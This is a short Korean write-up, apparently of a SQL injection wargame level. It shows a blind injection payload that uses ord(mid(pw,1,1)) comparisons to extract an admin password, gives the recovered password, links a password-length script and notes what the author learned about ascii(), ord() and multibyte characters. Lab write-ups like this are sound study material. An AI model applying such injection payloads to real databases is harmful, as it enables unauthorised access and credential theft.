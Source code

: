 ```diff
# 현재 쿼리문: where id='admin' and pw=''||ord(mid(pw,1,1))<50865-- '
```
```
해결 쿼리문: where id='admin' and pw='우왕굳'
```
### CERT <br> Python 코드 : [패스워드 길이 탐색](code/19_pwlength.py)

### 느낀점
```diff
+ 1. ascii(), ord() 함수를 자세히 배울 수 있었다.
+ 	 ascii(): 2byte 이상 값 반환 X
+ 	 ord(): 2byte 이상 값 반환

+ 2. DB에 저장된 것의 바이트 값에 대해 새롭게 배웠다.
+ 	 문자, 숫자: 1byte 차지
+ 	 한글: 3byte(utf - 8), 4byte(utf)
```
